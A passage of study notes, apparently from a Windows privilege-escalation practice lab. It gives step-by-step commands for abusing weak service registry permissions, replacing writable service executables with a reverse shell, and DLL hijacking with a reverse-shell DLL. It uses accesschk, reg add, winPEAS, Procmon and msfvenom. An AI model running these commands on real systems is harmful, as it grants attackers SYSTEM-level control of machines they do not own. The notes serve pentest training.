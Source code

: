                 - accesschk
                    > .\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
                - Powershell
                    > powershell -c "Get-Acl HKLM:\System\CurrentControlSet\Services\regsvc | Format-List"
                - Look for "RW NT AUTHORITY\INTERACTIVE KEY_ALL_ACCESS"
                - Make sure you can start the service
                    > .\accesschk.exe /accepteula -ucqv user regsvc
                        - Look for "SERVICE_START"
                - Check current values in reg entry
                    > reg query HKLM\SYSTEM\CurrentControlSet\services\regsvc
                        - Look at "ImagePath" <-- location of binary
                        - Look at "Object Name" <-- priv reg svc will run as 
            - Change path of binary
                > reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse2.exe /f
            - Start registry service
                > net start regsvc
        - Insecure Service Executables (Change file that a service points to)
            > winpeas.exe servicesinfo > winpeas.out
            - Search for the following in winpeas file
                - "Services Information"
                - Search "Everyone" 
                - Make sure it reads "File Permissions: Everyone [AllAccess]"
            - verify
                - Check permissions 
                    > .\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
                        - Must have RW Everyone, RW BUILTIN\USERS, or RW <YOUR USERNAME>, but it also must have NT AUTHORITY\SYSTEM and/or BUILTIN\Administrators
                - Check if you can start and stop service
                    > .\accesschk.exe /accepteula -ucqv user filepermsvc
                        - Look for "SERVICE_START"
            - Backup service executable, and copy over reverse shell
                - copy "C:\Program Files\File Permissions Service\filepermservice.exe" ".\filepermservice.exe.backup"
                - copy /Y C:\PrivEsc\reverse2.exe "C:\Program Files\File Permissions Service\filepermservice.exe"
            - Start service executable
                > net start filepermsvc
        - DLL Hijacking
            - Search for the following in winpeas file
                - "Services Information"
                - Search "DLL"
                - Make sure a "DLL Hijacking" folder location is writable and in the windows PATH
                - Looking for a DLL that is loaded by an executable that has high enough permissions. 
                    - If the DLL is writable, we can replace it with a reverse shell
                    - If the DLL is missing, we can substitute its location with a reverse shell
            - Need to look at all "non-Microsoft" services under "Service Information"
                - Determine which ones the user has all START and STOP access to.
                    > .\accesschk.exe /accepteula -ucqv user * | findstr /i /L /c:"R  " /c:"RW " /c:"W  " /c:"START" /c:"STOP"
            - Analyize: Need to copy the binary off the system and test on a test windows system (Same kernel, version, and patches)
                - Use Procmon64.exe to analyize its behavior
                    - Run as administrator
                    - Stop (magnifind glass) and clear (paper with eraser) current output 
                    - CTRL-L (Add filter)
                        - Change "Display enteris matching" to the dllname with extension "dllhijackservice.exe"
                        - Apply, and Ok
                    - Turn off registry and network activity buttons
                    - Start capture again
                    - Start the service
                        > net start dllsvc
                    - Look under "Result" for "NAME NOT FOUND", the associated "PATH" shows the file location and name
                    - LOOK for a path that is equal to the winpeas scan for DLL hijacking. 
            - Create a reverse shell for dll type (see msfvenom dll type)